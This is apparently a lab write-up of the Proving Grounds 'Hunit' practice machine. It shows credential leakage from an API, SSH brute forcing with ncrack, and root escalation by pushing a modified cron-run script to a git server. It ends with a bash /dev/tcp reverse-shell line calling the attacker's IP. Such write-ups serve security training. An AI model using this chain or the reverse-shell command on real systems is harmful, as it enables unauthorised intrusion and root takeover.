 ```yaml
---
title: "Proving grounds Practice: Hunit"
layout: post
date: 2024-02-25 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Git server
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
PORT      STATE SERVICE     VERSION
8080/tcp  open  http-proxy
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
```

## 8080/tcp  open  http-proxy

File Discovery
None

## Directory Discovery
- http://192.168.213.125:8080/api/
- http://192.168.213.125:8080/api/user/

**User directory discloses some credentials.**

```json
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

### Users
rjackson
jsanchez
dademola
jwinters
jvargas

### Passwords
yYJcgYqszv4aGQ
d52cQ1BzyNQycg
ExplainSlowQuest110
KTuGcSW6Zxwd0Q
OuQ96hcgiM5o9w

## Brute force credentials for SSH

```sh
naveenj@hackerspace:|22:22|~/proving_grounds/Hunit/files$ ncrack -vvv ssh://192.168.213.125:43022 -U users -P passwords 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-10-23 22:22 EDT

Discovered credentials on ssh://192.168.213.125:43022 'dademola' 'ExplainSlowQuest110'
ssh://192.168.213.125:43022 finished.

Discovered credentials for ssh on 192.168.213.125 43022/tcp:
192.168.213.125 43022/tcp ssh: 'dademola' 'ExplainSlowQuest110'
```

## 12445/tcp open  netbios-ssn Samba smbd 4.6.2

```sh
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	Commander       Disk      Dademola Files
	IPC$            IPC       IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
```

## 43022/tcp open  ssh   OpenSSH 8.4 (protocol 2.0)

SSH to user using dademola:ExplainSlowQuest110

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Hunit$ ssh -p 43022 dademola@192.168.213.125
dademola@192.168.213.125's password:ExplainSlowQuest110
Last login: Tue Oct 24 02:22:47 2023 from 192.168.45.196
[dademola@hunit ~]$ 
```

## Privilege Escalation

Download linpeas using port 8080 and note that a cron job is running.

`root         300  0.0  0.0   3644  2220 ?        Ss   02:19   0:00 /usr/bin/crond -n`

```sh
/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov  6  2020 .
drwxr-xr-x 6 root root 4096 Nov  6  2020 ..
-rw------- 1 root root    9 Feb 16  2023 cron.daily
-rw------- 1 root root    9 Feb 16  2023 cron.monthly
-rw------- 1 root root    9 Feb 16  2023 cron.weekly
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

## Cron job

- Found id_rsa and id_rsa.pub keys for root.

## Extended capabilities

```sh
[dademola@hunit ~]$ getcap -r / 2> /dev/null
/usr/bin/newgidmap cap_setgid=ep
/usr/bin/newuidmap cap_setuid=ep
```

## Exploring cron

```sh
[dademola@hunit etc]$ cat crontab.bak 
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

- Cron running these 2 scripts every 3 and 2 minutes.
- Clone the /git-server folder to the /tmp folder for inspection
- git clone file:///git-server

```sh
[dademola@hunit git-server]$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
[dademola@hunit git-server]$ ls -al
total 8
drwxr-xr-x 3 dademola dademola 120 Oct 24 03:04 .
drwxrwxrwt 5 root     root     120 Oct 24 03:04 ..
drwxr-xr-x 8 dademola dademola 260 Oct 24 03:04 .git
-rw-r--r-- 1 dademola dademola   0 Oct 24 03:04 NEW_CHANGE
-rw-r--r-- 1 dademola dademola  63 Oct 24 03:04 README
-rw-r--r-- 1 dademola dademola  34 Oct 24 03:04 backups.sh
```

The backups.sh file is a placeholder file.

To gain control over the script, we need to set up our git identity by configuring the user.name and user.email using the commands git config — global user.name “dademola” and git config — global user.email “dademola@hunit.(none)”, respectively.

```sh
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola@hunit.(none)"
```

Clone remote git server using git SSH key

```sh
naveenj@hackerspace:|23:18|~/proving_grounds/Hunit$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.213.125:/git-server
```

Add reverse shell connection code to the backups.sh file. Configure git in local machine to push the updated code.

```sh
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.name "naveenj"
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.email "naveenj@kali.(none)"
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git add -A
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git commit -m "exp"
#git push
naveenj@hackerspace:|23:25|~/proving_grounds/Hunit/git-server$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 326 bytes | 326.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.213.125:/git-server
   b50f4e5..eee611b  master -> master
```

Ensure the shell is in the /git-server folder.

Reverse shell
```sh
sh -i >& /dev/tcp/192.168.45.196/8080 0>&1
```

Once the cron job running the reverse shell with root privilege will be obtained.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).